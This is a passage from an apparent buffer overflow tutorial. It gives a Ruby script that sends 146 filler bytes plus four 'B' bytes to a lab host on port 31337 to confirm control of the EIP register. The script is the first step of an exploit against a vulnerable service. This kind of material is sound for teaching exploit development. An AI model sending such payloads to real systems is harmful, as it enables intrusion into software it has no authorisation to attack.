

Since we know that we can own EIP at 146 bytes, let's give it a try:
```Ruby
buff = "A"*146
buff += "B" * 4
RHOST = "192.168.0.227"
RPORT = 31337

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
